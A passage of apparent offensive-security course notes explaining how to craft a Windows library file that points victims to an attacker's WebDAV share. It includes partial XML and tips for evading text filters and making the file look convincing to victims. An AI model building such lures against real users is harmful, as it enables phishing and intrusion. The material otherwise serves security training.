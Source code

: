 Library files consist of three major parts and are written in XML to specify the parameters for accessing remote locations
+ The parts are _General library information_, _Library properties_, and _Library locations_
+ Will build the XML code by adding and explain the tags and can refer to the _Library Description Schema_ for further information
+ We'll begin by adding the XML and library file's format version

The listing below contains the namespace for the library file
+ This is the namespace for the version of the library file format starting from Windows 7.
+ The listing also contains the closing tag for the library description
+  of the following tags we cover will be added inside the _libraryDescription_ tags
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">

</libraryDescription>
```

Next, we'll add two tags providing information about the library
+ The _name_ tag specifies the name of this library
+ We must not confuse this with an arbitrary name we can just set randomly
+ We need to specify the name of the library by providing a DLL name and index
+ We can use `@shell32.dll,-34575`or `@windows.storage.dll,-34582` as specified on the Microsoft website
+ We'll use the latter to avoid any issues with text-based filters that may flag on `shell32`
+ The _version_ tag can be set to a numerical value of our choice, for example, 6.
```
<name>@windows.storage.dll,-34582</name>
<version>6</version>
```

Now, let's add the _templateInfo_ tags, which contain the _folderType_ tags
+ These tags determine the columns and details that appear in Windows Explorer by default after opening the library
+ We'll need to specify a GUID that we can look up on the _Microsoft documentation_ webpage. 
+ For this example, we'll use the **Documents** GUID to appear as convincing as possible for the victim
```
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
```

The next tag marks the beginning of the library locations section
+ In this section, we specify the storage location where our library file should point to
+ We'll begin by creating the _searchConnectorDescriptionList_, tag which contains a list of _search connectors_ defined by _searchConnectorDescription_
+ Search connectors are used by library files to specify the connection settings to a remote location
+ We can specify one or more _searchConnectorDescription_ elements inside the _searchConnectorDescriptionList_ tags, for this example we only specify one

Inside the description of the search connector, we'll specify information and parameters for our WebDAV share
+ The first tag we'll add is the _isDefaultSaveLocation_ tag with the value set to **true**
+ This tag determines the behavior of Windows Explorer when a user chooses to save an item
+ To use the default behavior and location, we'll set it to true
+ Next, we'll add the _isSupported_ tag, which is not documented in the Microsoft Documentation webpage, and is used for compatibility, can set it to **false** 
+ The most important tag is _url_ which we need to point to our previously-created WebDAV share over HTTP
+ It is contained within the _simpleLocation_ tags, which we can use to specify the remote location in a more user-friendly way as the normal _locationProvider_ element 
```
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
```